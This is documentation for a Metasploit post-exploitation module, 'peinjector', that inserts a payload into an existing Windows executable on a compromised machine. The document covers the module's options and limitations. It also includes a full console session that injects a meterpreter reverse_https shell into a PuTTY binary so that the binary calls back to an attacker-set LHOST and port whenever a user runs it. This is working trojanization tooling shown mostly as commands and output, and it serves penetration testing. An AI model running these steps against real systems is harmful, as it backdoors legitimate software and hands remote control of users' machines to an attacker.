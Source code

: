 ## Overview
This module inserts a payload into an existing PE file on a remote
machine.  When a user launches the binary, the payload will run
as a thread within the process with the same privs.

## Options
LHOST  IP of host that will receive the connection from the payload.
LPORT  Port for Payload to connect to.
OPTIONS Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
PAYLOAD Windows Payload to inject into the target executable.
SESSION The session to run this module on.
TARGETPE Path of the target executable to Path of the target executable to be injected

## Limitations
This process is not reverse-able.  If you would like to return the
binary to it's original state, save a copy.

THE PAYLOAD WILL NOT SPAWN AN INDEPENDENT PROCESS/THREAD AND THE SESSION
WILL DIE WITH THE BINARY AND/OR WILL KILL THE BINARY WHEN THE SESSION
EXITS.  Be careful closing sessions that were spawned using this method!

If a setting is wrong, it may cause the binary to fail to launch,
alerting the user to possible shinnanigans.

## Vulnerable Application
`Vulnerable` is a bad term; this module inserts shellcode into a pe
file.  That means any Windows pe files are `vulnerable`.
Be aware that some files like calc.exe on later Windows versions
are not entirely normal in their behvior and are not `vulnerable`

## Verification Steps
* get session on target
* `use post/windows/manage/peinjector`
* `set payload <payload>`
* `set lport <lport>`
* `set lhost <lhost>`
* `set targetpe <*.exe>`
* `run`

## Usage
```
meterpreter > sysinfo
Computer        : WIN10X64-1511
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use post/windows/manage/peinjector 
msf post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                    Required  Description
   ----      ---------------                    --------  -----------
   LHOST                                        yes       IP of host that will receive the connection from the payload.
   LPORT     4433                               no        Port for Payload to connect to.
   OPTIONS                                      no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/meterpreter/reverse_https  no        Windows Payload to inject into the target executable.
   SESSION                                      yes       The session to run this module on.
   TARGETPE                                     no        Path of the target executable to be injected

msf post(windows/manage/peinjector) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf post(windows/manage/peinjector) > set lport 4561
lport => 4561
msf post(windows/manage/peinjector) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf post(windows/manage/peinjector) > set session 1
session => 1
msf post(windows/manage/peinjector) > set targetpe 'C:\users\msfuser\downloads\puttyx64.exe'
targetpe => C:\users\msfuser\downloads\puttyx64.exe
msf post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   LHOST     192.168.135.111                          yes       IP of host that will receive the connection from the payload.
   LPORT     4561                                     no        Port for Payload to connect to.
   OPTIONS                                            no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/x64/meterpreter/reverse_https    no        Windows Payload to inject into the target executable.
   SESSION   1                                        yes       The session to run this module on.
   TARGETPE  C:\users\msfuser\downloads\puttyx64.exe  no        Path of the target executable to be injected

msf post(windows/manage/peinjector) > run

[*] Running module against WIN10X64-1511
[*] Generating payload
[*] Injecting Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet) into the executable C:\users\msfuser\downloads\puttyx64.exe
[+] Successfully injected payload into the executable: C:\users\msfuser\downloads\puttyx64.exe
[*] Post module execution completed
msf post(windows/manage/peinjector) >
```

